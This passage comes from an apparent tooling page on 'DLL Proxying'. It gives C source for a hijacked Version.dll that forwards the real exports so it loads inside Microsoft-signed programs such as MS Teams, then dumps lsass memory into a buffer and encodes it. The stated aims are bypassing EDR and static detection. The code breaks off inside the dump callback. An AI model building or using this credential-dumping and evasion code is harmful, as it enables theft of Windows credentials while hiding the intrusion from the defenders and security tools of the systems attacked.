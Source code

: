 ### DLL Proxying
Original writeup is posted [here](https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/) by [dec0ne](https://twitter.com/dec0ne). Detailed step by step guide will be written later. Below is the source code for dll used. To summarize, this method will hijack dll called *Version.dll* that is mostly ran by a Microsoft-signed binaries (i.e. MS Teams). Hence it is highly likely to bypass EDR. This code will encode the dump output to avoid static detection on an lsass dump file. Use [this](https://gist.github.com/aniqfakhrul/af3a114ecac0e2d0ca35e807d795f5c3) to decode back to its original form.
```c
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#include <DbgHelp.h>
#pragma comment(lib, "Dbghelp.lib")

#pragma comment(linker,"/export:GetFileVersionInfoA=C:\\Windows\\System32\\version.GetFileVersionInfoA,@1")
#pragma comment(linker,"/export:GetFileVersionInfoByHandle=C:\\Windows\\System32\\version.GetFileVersionInfoByHandle,@2")
#pragma comment(linker,"/export:GetFileVersionInfoExA=C:\\Windows\\System32\\version.GetFileVersionInfoExA,@3")
#pragma comment(linker,"/export:GetFileVersionInfoExW=C:\\Windows\\System32\\version.GetFileVersionInfoExW,@4")
#pragma comment(linker,"/export:GetFileVersionInfoSizeA=C:\\Windows\\System32\\version.GetFileVersionInfoSizeA,@5")
#pragma comment(linker,"/export:GetFileVersionInfoSizeExA=C:\\Windows\\System32\\version.GetFileVersionInfoSizeExA,@6")
#pragma comment(linker,"/export:GetFileVersionInfoSizeExW=C:\\Windows\\System32\\version.GetFileVersionInfoSizeExW,@7")
#pragma comment(linker,"/export:GetFileVersionInfoSizeW=C:\\Windows\\System32\\version.GetFileVersionInfoSizeW,@8")
#pragma comment(linker,"/export:GetFileVersionInfoW=C:\\Windows\\System32\\version.GetFileVersionInfoW,@9")
#pragma comment(linker,"/export:VerFindFileA=C:\\Windows\\System32\\version.VerFindFileA,@10")
#pragma comment(linker,"/export:VerFindFileW=C:\\Windows\\System32\\version.VerFindFileW,@11")
#pragma comment(linker,"/export:VerInstallFileA=C:\\Windows\\System32\\version.VerInstallFileA,@12")
#pragma comment(linker,"/export:VerInstallFileW=C:\\Windows\\System32\\version.VerInstallFileW,@13")
#pragma comment(linker,"/export:VerLanguageNameA=C:\\Windows\\System32\\version.VerLanguageNameA,@14")
#pragma comment(linker,"/export:VerLanguageNameW=C:\\Windows\\System32\\version.VerLanguageNameW,@15")
#pragma comment(linker,"/export:VerQueryValueA=C:\\Windows\\System32\\version.VerQueryValueA,@16")
#pragma comment(linker,"/export:VerQueryValueW=C:\\Windows\\System32\\version.VerQueryValueW,@17")


// Global variables the will hold the dump data and its size
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 200); // Allocate 200MB buffer on the heap
DWORD dumpSize = 0;

// Callback routine that we be called by the MiniDumpWriteDump function
BOOL CALLBACK DumpCallbackRoutine(PVOID CallbackParam, const PMINIDUMP_CALLBACK_INPUT CallbackInput, PMINIDUMP_CALLBACK_OUTPUT CallbackOutput) {
	LPVOID destination = 0;
	LPVOID source = 0;
	DWORD bufferSize = 0;
	switch (CallbackInput->CallbackType) {
	case IoStartCallback:
		CallbackOutput->Status = S_FALSE;
		printf("[+] Starting dump to memory buffer\n");
```